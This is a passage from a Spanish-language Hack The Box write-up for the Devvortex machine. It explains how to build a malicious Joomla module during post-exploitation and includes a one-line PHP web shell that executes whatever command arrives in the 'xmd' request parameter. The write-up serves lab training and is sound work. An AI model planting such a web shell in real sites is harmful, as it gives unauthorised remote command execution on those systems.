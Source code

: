 
## Flags [📌](#post-exploitation-flags) {#post-exploitation-flags}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devvortex/htb577_flags.png" style="width: 100%;"/>

## Creación manual de plugin malicioso para Joomla [📌](#post-explotacion-joomla-manual-plugin) {#post-explotacion-joomla-manual-plugin}

Realmente es muy sencillo, me lo imaginaba todo rarito, pero nada, siguiendo la guía nos demoramos 2 mins.

* [Creating a simple Joomla module with parameters](https://docs.joomla.org/J4.x:Creating_a_Simple_Module).
* [Creando un módulo simple en Joomla](https://docs.joomla.org/J3.x:Creating_a_simple_module/Developing_a_Basic_Module/es)

Necesitamos 3 archivos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/devvortex/htb577_google_createAsimpleModule_requiredFiles.png" style="width: 100%;"/>

Como vemos el principal y donde estará toda la matralla será el `.php` inicial, los demás tienen información para que **Joomla** interprete correctamente la información.

> Siguiendo cualquier guia vamos a poder ejecutar comandos.

🗃️ `mod_sheshe.php` (el principal y único importante).

En las guías este objeto tiene mucha información, pero claro, eso en la guía, nosotros no queremos usar cosas externas ni nada, que lea el archivo y que tome el contenido del parámetro `xmd` y lo ejecute como comando en el sistema:

```php
<?php

echo exec($_REQUEST["xmd"]);

?>
```

🗃️ `tmpl/default.php` (lo dejamos igual que como está en la guía, no es relevante, pero sí necesario)

```bash
mkdir tmpl
touch tmpl/default.php
```

```php
<?php 
// No direct access
defined('_JEXEC') or die; ?>
<?php echo $hello; ?>
```
